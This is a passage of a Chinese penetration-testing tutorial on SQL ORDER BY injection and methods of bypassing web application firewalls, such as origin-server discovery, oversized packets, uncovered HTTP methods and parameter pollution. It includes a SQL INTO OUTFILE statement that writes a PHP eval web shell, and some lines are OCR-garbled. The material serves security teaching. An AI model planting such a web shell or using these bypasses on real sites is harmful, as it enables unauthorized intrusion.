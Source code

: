 **练习地址：**[https://www.yuque.com/xmtxsec/blog/udvcz1](https://www.yuque.com/xmtxsec/blog/udvcz1)


### 2.2.13、SORT注入知识点
SQL语句中，asc是指定列按升序排列，desc则 是指定列按降序排列。
```
select * from users order by 1 desc; 使用降序进行排列
select * from users order by1 asc;使用升序进行排列
```

```
right() 
select right(database(),1);
Left() 
select left(database(),1);
```

lines terminated by xxx 以xxx为结尾:
```
select ‘<?php @eval($_ POST[XMTX]);?>’ into outfile 'C:\pbpstudy\PHPTutorilWWW.XMTX.pbp’ lines
terminated by 0x363636;
```

**练习地址：**[https://www.yuque.com/xmtxsec/blog/ubdhk5](https://www.yuque.com/xmtxsec/blog/ubdhk5)


# 三、Waf绕过

## 3.1、白盒绕过
通过源代码分析，来进行绕过。


## 3.2、黑盒绕过

### 3.2.1、架构层面绕过waf

- 寻找源网站绕过waf检测主要针对的是云waf，找到源网站的真实地址，进行绕过，有点像CDN
- 通过同网段绕过waf防护在一个网段中，可能经过的数据不会经过云waf，从而实现绕过。


### 3.2.2、资源限制角度绕过waf

- 一般waf的执行需要优先考虑业务优先的原则，所以对于构造较大、超大数据包可能不会进行检测，从而实现绕过waf。


### 3.2.3、协议层面绕过waf

-  协议未覆盖绕过waf，比如由于业务需要，只对get型进行检测，post数据选择忽略 
-  参数污染，index?id=1&id=2 waf可能只对id=1进行检测

**例：**<br />**服务器端有两个部分：**<br />第一部分为 tomcat 为引擎的 jsp 型服务器<br />第二部分为 apache 为引擎的 php 服务器<br />真正提供 web 服务的是 php 服务器。工作流程为：client 访问服务器， 能直接访问到 tomcat 服务器，然后 tomcat 服务器再向 apache 服务器请求数据。数据返回 路径则相反。<br />![](https://img-blog.csdnimg.cn/20200723152157998.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=UhkL7&originHeight=492&originWidth=809&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
